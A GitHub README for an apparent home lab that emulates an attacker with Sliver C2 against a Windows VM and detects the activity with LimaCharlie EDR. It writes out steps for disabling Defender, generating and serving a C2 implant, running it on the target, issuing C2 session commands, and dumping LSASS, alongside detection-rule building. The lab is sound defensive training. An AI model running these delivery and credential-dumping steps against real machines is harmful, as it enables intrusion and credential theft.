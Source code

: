 # **LimaCharlie & Sliver C2: Adversary Emulation Lab**

**Objective**

This repository explores adversary tactics using Sliver C2 for command-and-control attack simulation and demonstrates defensive strategies using LimaCharlie EDR. It aims to replicate real-world attack scenarios, refine detection logic, and evaluate telemetry insights."



**Skills Learned**

**🔹 Endpoint Detection & Response (EDR)**
- Deploying LimaCharlie Sensors for real-time telemetry collection.
- Integrating Sysmon with LimaCharlie to capture detailed process activity.
- Analyzing process telemetry to detect command-and-control (C2) activity.
- Building Detection & Response (D&R) rules to mitigate attacks.

**🔹 Adversary Emulation & C2 Frameworks**
- Setting up Sliver C2 to simulate real-world attack scenarios.
- Generating and deploying Sliver payloads for command execution.
- Interacting with active C2 sessions to mimic adversary behavior.
- Understanding detection evasion techniques used by Sliver.

**🔹 Threat Hunting & Malware Analysis**
- Examining process and file hashes to investigate suspicious binaries.
- Using VirusTotal to assess malware reputation and identify unknown threats.
- Dumping LSASS memory to simulate credential theft tactics.
- Filtering LimaCharlie telemetry for sensitive event detection.

**🔹 Security Operations & Defensive Strategies**
- Refining security detection logic for advanced threat detection.
- Investigating system behavior post-compromise for forensic insights.
- Applying MITRE ATT&CK mappings to real-world adversary techniques.




**Tools Used**

🔹 Virtual Machines (VMs)
- Windows 10 (Target Machine) – Acts as the endpoint where Sliver C2 payloads are executed. LimaCharlie sensor is deployed here to capture telemetry.
- Kali Linux (Attacker Machine) – Used for launching Sliver C2, executing commands, and emulating adversary techniques.
- Ubuntu Server (Malware Storage) – Acts as a staging server for adversary-controlled payload distribution. A temporary Python web server hosts the Sliver C2 payload, mimicking real-world malware delivery methods.


🔹 LimaCharlie (EDR Platform)
A cloud-native endpoint detection & response (EDR) tool used to capture and analyze system telemetry. It provides:
- Real-time endpoint monitoring and security event logging.
- Detection & Response (D&R) rules for identifying adversary behaviors.
- Sysmon integration for enhanced process visibility.

🔹 Sliver C2 (Command & Control Framework)
An open-source command-and-control (C2) tool used to simulate real-world adversary techniques. Provides:
- Payload generation for remote access and execution.
- Session management to interact with compromised endpoints.
- Defensive tool awareness by highlighting detected security features.



**Steps :**

First thing we got to do is to remove security defense in Windows VM.
![image](https://github.com/user-attachments/assets/522aa5c2-c2f6-47f6-8298-5446112cf5c8)
![image](https://github.com/user-attachments/assets/dbf3fb49-1cbd-4e0e-986c-a8f1940a01fa)
![image](https://github.com/user-attachments/assets/fdee6963-0944-43e2-9838-a5c1abe6feff)


Some instances, the security settings will automatically turn on again, so we will ‘double disable’ it in gpedit.msc
(Computer configuration > Administrative Template > Windows Components > Microsoft Defender Antivirus)
![image](https://github.com/user-attachments/assets/cdcfb01e-7266-490f-b772-794580d5a60d)



Install Sysmon in Windows VM
-	Launch Administrative Powershell console 
-	`Invoke-WebRequest -Uri https://download.systernals.com/files/Sysmon.zip -Outfile C:\Windows\Temp\Sysmon.zip`
-	Unzip Sysmon
-	Download SwiftonSecurity’s Sysmon config.
-	Invoke-WebRequest `-Uri https://raw.githubuser.com/SwiftonSecurity/sysmon-config/master/sysmonconfig-export.xml -Outfile C:\Windows\Temp\Sysmon\sysmonconfig.xml`
-	install Sysmon with Swift’s config
![image](https://github.com/user-attachments/assets/afe2d98a-898b-435a-baf3-cce9051807be)


Create organization in LimaCharlie (https://limacharlie.io/)
![image](https://github.com/user-attachments/assets/a7823c1b-a5a5-415b-b1f2-61f97550431d)

Add demo configuration : Extended Detection & Response Standard.

Add sensor. Follow the instruction in LimaCharlie Docs in telemetry sensor deployment
(https://docs.limacharlie.io/v1/docs/telemetry-sensor-deployment)
![image](https://github.com/user-attachments/assets/d4686476-6399-40a7-ad26-889a85327682)
![image](https://github.com/user-attachments/assets/2fd688a9-2dcf-49bb-a32a-d7db7f1d5426)
![image](https://github.com/user-attachments/assets/2b939926-b417-4df3-9140-6dccf88e33f7)
![image](https://github.com/user-attachments/assets/575a8aa6-f742-45ae-b3d5-ab28063de086)

Configure LimaCharlie to also ship the Sysmon event logs alongside its own EDR telemetry;
![image](https://github.com/user-attachments/assets/6e793633-8d4e-4465-894a-fde76fce9571)

![image](https://github.com/user-attachments/assets/faedc2b9-362c-4043-a80a-066ff7ab0b0c)


Setting up the attack: 
In Kali Linux, connect in Ubuntu server using SSH (ssh ‘user’@’ubuntu-server-IP’)

Then download the Sliver : wget https://github.com/BishopFox/sliver/releases/download/v1.5.34/sliver-server_linux -0 /usr/local/bin/sliver-server

Then make it executable : chmod +x /usr/local/bin/sliver-server

Also install mingw-w64 for additional capabilities : `apt install -y mingw-w64`
Launch sliver (sliver-server)
![image](https://github.com/user-attachments/assets/1847ef67-7a85-4b6b-8073-e66ff4839fd7)

Generate C2 payload : generate –http [Ubuntu server IP] –save /opt/sliver
![image](https://github.com/user-attachments/assets/86f3b718-f5e8-4d4d-8ede-64abeac8d593)

Setup a temporary server in Ubuntu server so the payload can be download by or target pc :
python3 -m http.server 80
Then switch to our Windows VM then launch administrative powershell :
IWR -Uri http://10.0.2.13/LOW_BAGGAGE.exe -Outfile C:\Users\vboxuser\Downloads\LOW_BAGGAGE.exe
![image](https://github.com/user-attachments/assets/068375e9-8f3b-48d7-bfcb-0b533b70ed6f)

Back to our (SSH)ubuntu server
Quit the python web server then relaunch the sliver-server, start http listener by typing ‘http’
![image](https://github.com/user-attachments/assets/43587b79-32a0-465f-aefc-99639eb26318)

Return to Windows VM then execute the C2 Payload using administrative powershell.
![image](https://github.com/user-attachments/assets/15d8eced-0fd9-4782-aa2d-8667b593b80a)
Verify by typing ‘sessions’
![image](https://github.com/user-attachments/assets/ccca4c27-7d32-4eb5-9f7d-d5b86cc50b6b)

Interact with C2 session : ‘use [session_id]
![image](https://github.com/user-attachments/assets/de63e25a-2c57-44c9-86e7-2c72ea213dff)

Get basic info: `whoami && info`

![image](https://github.com/user-attachments/assets/f31691f5-992d-4c0d-a32a-4c53e49ca3f5)

`getprivs` :

![image](https://github.com/user-attachments/assets/e56a8eba-3dfb-4096-80b4-ed654cb68ae2)

![image](https://github.com/user-attachments/assets/bacd162e-5a94-4360-a5c2-d9826b16d89a)

`ps -T` (sliver highlight the defensive tool as red and green as its own)
![image](https://github.com/user-attachments/assets/ed37bb45-62b7-48a5-beef-16ee45352e7b)


Go to LimaCharlie’s Process Explorer, select the Windows VM, and analyze running processes. Look for suspicious parent-child process chains (e.g., powershell.exe -> LOW_BAGGAGE.exe) as indicators of malicious execution.


![image](https://github.com/user-attachments/assets/0090cd77-b48a-4be1-8795-141ec01084d6)
![image](https://github.com/user-attachments/assets/94d49b43-c96e-4788-aecb-20b4b918c4a9)
![image](https://github.com/user-attachments/assets/8feefe4d-9451-4cf9-8ac8-b7c3db7c1721)

resources to learn more about windows processes and binaries threat actors use : 

https://www.sans.org/posters/hunt-evil/

https://lolbas-project.github.io/#


Go to file system of our windows machine in LimaCharlie to get the hash of file then inspect it to Virustotal.
![image](https://github.com/user-attachments/assets/31a37a86-5eb3-4c47-b449-81bfec0b325c)

**When you tried to check it to Virustotal. No results will found. 
But it doesn’t mean its innocent.
It’s just VirusTotal is never seen it before. This makes sense because we just generated the payload.
The important lesson for any analyst to learn : Files not flagged by VirusTotal may be custom-built malware designed for targeted attacks. Always corroborate findings with static analysis (strings, entropy checks) and behavioral analysis (sandbox execution)



Next, lets dump the **lsass.exe** process from memory 

![image](https://github.com/user-attachments/assets/fcdb62d6-a7d1-482b-844e-d1300e2dfc19)

![image](https://github.com/user-attachments/assets/a3517011-f22c-4f91-beb3-5775ddfa09ec)


Go back to Timeline then filter for : “SENSITIVE_PROCESS_ACCESS”
![image](https://github.com/user-attachments/assets/07dc4bf9-05f8-413a-a2c2-779cfd03f577)


Then build a D&R rules from it. 
![image](https://github.com/user-attachments/assets/719bdde3-2a97-4374-8fbd-4dc78ef23451)

![image](https://github.com/user-attachments/assets/131deeb7-ca76-41e0-878a-fc769cf561e5)

Scroll to the bottom to test our D&R rule.
Paste the SENSITIVE_PROCESS_ACCESS code then click Test Event.
Save the rule.


![image](https://github.com/user-attachments/assets/d214a89a-277d-48d4-ad37-7179554ed140)

Try to dump the lsass.exe again using the same command to check if our rule is really working.

![image](https://github.com/user-attachments/assets/7e6780ad-4b1b-462a-839b-d36020855ab7)

![image](https://github.com/user-attachments/assets/3322d89e-b917-4468-8b68-33ccc7276477)













